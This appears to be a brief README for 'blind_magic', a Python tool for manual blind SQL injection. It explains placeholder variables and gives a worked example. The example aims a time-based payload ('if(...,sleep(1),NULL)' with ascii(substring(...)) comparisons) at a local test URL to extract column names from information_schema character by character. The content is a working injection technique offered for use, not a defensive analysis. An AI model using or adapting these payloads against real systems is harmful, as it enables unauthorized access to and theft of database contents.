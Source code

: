 # blind_magic 0.1.3  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 5 loop variables l1 to l4 {l1} {l2} {l3} {l4}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
b = Blind_magic()  
b.set_l1(1,10)  
b.set_l2(0,1)  
b.url = "http://localhost/test_site/?q="  
b.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
b.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
b.query = "Select column_name from information_schema.columns where table_name='staffs' limit {l2},1"  
b.run()  
print b.result  
